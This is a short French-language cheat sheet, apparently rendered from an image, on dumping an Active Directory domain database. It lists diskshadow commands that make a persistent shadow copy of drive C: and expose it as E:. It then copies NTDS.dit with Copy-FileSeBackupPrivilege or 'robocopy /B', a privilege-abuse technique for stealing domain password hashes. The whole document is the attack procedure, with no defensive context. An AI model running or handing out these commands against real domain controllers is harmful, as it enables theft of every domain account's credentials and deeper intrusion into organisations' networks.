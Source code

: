 #### 1. Créer shadow copie du disque C:

Diskshadow (natif)

```powershell-session
diskshadow.exe
```

```powershell-session
set verbose on
```

```powershell-session
set metadata C:\Windows\Temp\meta.cab
```

```powershell-session
set context clientaccessible
```

```powershell-session
set context persistent
```

```powershell-session
begin backup
```

```powershell-session
add volume C: alias cdrive
```

```powershell-session
create
```

```powershell-session
expose %cdrive% E:
```

```powershell-session
end backup
```

```powershell-session
exit
```

```powershell-session
dir E:
```

#### 2. Copier NTDS.dit

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

ou avec Robocopy

```cmd-session
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
